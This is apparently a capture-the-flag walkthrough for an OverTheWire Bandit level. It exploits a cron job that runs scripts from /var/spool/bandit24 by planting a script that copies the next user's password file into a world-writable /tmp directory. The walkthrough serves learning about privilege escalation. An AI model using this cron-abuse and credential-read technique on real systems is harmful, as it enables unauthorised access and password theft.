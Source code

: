 NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Solution

We print the content of the file we saw being executed reguraly in /etc/cron.d/cronjob_bandit24.

```terminal
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/tmp/dir$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

So what the script does is change directory to **/var/spool/$myname** and the *$myname* variable being **bandit24**, it then executes every hidden file located in that directory, and then deletes it all the hidden files after that.
What we need to do is create a script that gives us **bandit24**'s password, save the script as a hidden file in */var/spool/bandit24* and wait for our script to get executed.

The i solved this challenge was by first creating a directory in **/tmp**, and give that directory full permissions so bandit24 can write there.

```terminal
bandit23@bandit:~$ mkdir /tmp/dir
bandit23@bandit:~$ chmod 777 /tmp/dir
bandit23@bandit:~$ cd /tmp/dir
bandit23@bandit:/tmp/dir$
```

After that i proceeded to write the script, i first created a hidden file and write the command that are going to be executed.

```terminal
bandit23@bandit:/tmp/dir$ touch .script.sh
bandit23@bandit:/tmp/dir$ echo '#!/bin/bash' > .script.sh
bandit23@bandit:/tmp/dir$ echo 'cat /etc/bandit_pass/bandit24 > /tmp/dir/bandit24' >> .script.sh
bandit23@bandit:/tmp/dir$ chmod +x .script.sh
bandit23@bandit:/tmp/dir$ cat .script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/dir/bandit24

bandit23@bandit:/tmp/dir$ cp .script.sh /var/spool/bandit24/
```
